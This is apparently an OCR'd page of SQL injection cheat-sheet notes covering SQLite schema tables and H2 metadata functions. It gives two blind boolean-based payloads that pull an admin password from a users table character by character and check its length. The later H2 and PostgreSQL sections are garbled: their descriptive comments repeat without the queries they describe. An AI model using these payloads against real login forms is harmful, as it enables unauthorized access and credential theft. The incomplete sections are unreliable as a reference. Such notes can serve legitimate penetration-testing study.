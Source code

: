 ```sql
sqlite_schema.type
```
	‘table’, ‘index’, ‘view’, or ‘trigger’  

```sql
sqlite_schema.name
```
	Holds name of the object  

```sql
sqlite_schema.sql
```
	Stores SQL text that describes the object (CREATE statement)  
  
```sql
admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -
```
	Blind-Based Auth Bypass using Boolean-Based SQLi  
		CAST() - Convert value to a type.  
		X'54' - Hex representation of ‘T’. x'54' for ‘t’  

```sql
admin' AND length((SELECT password from users where username='admin'))==#-- -
```
	Check length of password  
  

**H2**  
```sql
schema()
```
	DB metadata  

```sql
h2version()
```
	Shows db version  



-- Shows user and hostname of the account interacting w/ the db  
-- Shows name of the db in use  
-- Shows account name used for Windows authentication used by the db  
-- Enumerates through all tables listed in schema  
-- Retrieves column names from the _users_ table  
  
  
  
  
**PostgreSQL**  
-- DB metadata  
-- Shows db version  
-- Shows user and hostname of the account interacting w/ the db  
-- Shows name of the db in use  
-- Shows account name used for Windows authentication used by the db  
-- Enumerates through all tables listed in schema  
-- Retrieves column names from the _users_ table